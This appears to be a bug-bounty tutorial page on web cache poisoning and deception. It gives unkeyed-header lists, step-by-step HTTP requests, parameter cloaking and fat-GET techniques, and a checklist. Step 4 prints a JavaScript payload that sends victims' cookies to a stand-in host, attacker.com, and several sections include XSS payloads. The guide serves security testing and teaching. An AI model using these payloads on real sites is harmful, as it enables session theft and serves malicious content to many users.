

> Source: https://bugbounty.info/Attack-Surface/Web/Infrastructure/Cache-Poisoning

# Cache Poisoning

Cache poisoning and web cache deception are related but different. Poisoning: you poison the cache so other users receive your malicious response. Deception: you trick a user into caching their own private response, then retrieve it. This page covers both  -  they often share the same root cause and infrastructure.

## Cache Poisoning vs. Cache Deception

| Attack | Mechanism | Target | Impact |
| --- | --- | --- | --- |
| Cache Poisoning | Inject malicious content into cache via unkeyed headers | All users who hit the cached URL | XSS delivery, redirect, DoS |
| Cache Deception | Trick user into caching private page | Individual victim | Read their cached private data |

## How Cache Keying Works

The cache stores responses keyed on the request. The key is usually `host + path + query`. Headers are typically not part of the key  -  but they can affect the response. That's the gap.



## Unkeyed Headers  -  The Attack Surface

These headers influence response content but are commonly excluded from cache keys:

```text
X-Forwarded-Host
X-Forwarded-For
X-Forwarded-Scheme
X-Host
X-Original-URL
X-Rewrite-URL
X-Forwarded-Port
X-Original-Forwarded-For
Forwarded
```

Use **Param Miner** (Burp extension) to discover which headers are unkeyed and reflected: right-click request -> Guess headers. It fuzzes hundreds of header names and flags ones that appear in the response.

## Practical Poisoning Flow

### Step 1: Find an Unkeyed Header That's Reflected

```http
GET / HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
 
HTTP/1.1 200 OK
<script src="https://attacker.com/static/js/app.js">
```

The response includes attacker.com because the app uses `X-Forwarded-Host` to construct absolute URLs.

### Step 2: Verify It's Not Already Cached (Cache Buster)

Add a cache-busting parameter to test without poisoning real users:

```http
GET /?cb=12345 HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
```

Check response headers for `X-Cache: MISS` (first hit, went to backend) vs `X-Cache: HIT` (served from cache).

### Step 3: Poison Without Cache Buster

Once confirmed, send without the cache buster. The malicious response gets cached under the canonical URL. Verify by making a fresh request from a different IP/session and checking if you receive the poisoned response.

### Step 4: Host Your Payload

On attacker.com, serve JavaScript at the path the response expects:

```javascript
// attacker.com/static/js/app.js
document.location = 'https://attacker.com/steal?c=' + document.cookie;
```

## Parameter Cloaking

Caches and backends sometimes parse query strings differently. If the cache uses the first instance of a parameter but the backend uses the last:

```http
GET /search?q=legit&q=<script>alert(1)</script>
Cache key: /search?q=legit
Backend sees: q=<script>alert(1)</script>
```

The cached key looks clean; the backend processes the malicious value. Param Miner detects this automatically.

## Fat GET / Body-Reflected Unkeyed Input

Some backends process POST body parameters even on GET requests. If body content is reflected in a GET response but the cache key is based on the URL only:

```http
GET /page HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
 
x=<script>alert(1)</script>
```

If reflected and cached, every subsequent GET to `/page` delivers XSS.

## Web Cache Deception

Cache deception is the mirror image of poisoning  -  instead of poisoning what the cache serves, you trick a victim into caching their own private data, then retrieve it. This attack class has its own dedicated page with full methodology, CDN-specific behaviors, and path confusion techniques:

**See [Web Cache Deception](../../../Attack-Surface/Web/Infrastructure/Web-Cache-Deception) for the complete guide.**

## Checklist

- Run Param Miner on the target  -  identify unkeyed headers
- Test each unkeyed header for reflection in response
- Use cache-buster param while probing to avoid unintended poisoning
- Check cache response headers: `X-Cache`, `CF-Cache-Status`, `Age`, `Surrogate-Key`
- Test parameter cloaking  -  duplicate parameters with different values
- Test fat GET / body reflection
- Test web cache deception: authenticated URL + appended .css/.js/.png extension
- Document cache TTL  -  how long does the poisoned response persist?

## Public Reports

Real-world cache poisoning findings across bug bounty programs:

- Cache poisoning leading to stored XSS and account takeover on Expedia - [HackerOne #1760213](https://hackerone.com/reports/1760213)
- Web cache poisoning DoS on PayPal via Transfer-Encoding header ($9,700) - [HackerOne #622122](https://hackerone.com/reports/622122)
- Cache poisoning delivering user tracking on Lyst - [HackerOne #631589](https://hackerone.com/reports/631589)
- Cache poisoning DoS on data.gov via host header manipulation - [HackerOne #942629](https://hackerone.com/reports/942629)

## See Also

- [HTTP Request Smuggling](../../../Attack-Surface/Web/Infrastructure/Request-Smuggling)
- [Reflected XSS](../../../Attack-Surface/Web/Injection/XSS/Reflected-XSS)
- [Open Redirect](../../../Attack-Surface/Web/Infrastructure/Open-Redirect)
- [Web Cache Deception](../../../Attack-Surface/Web/Infrastructure/Web-Cache-Deception)
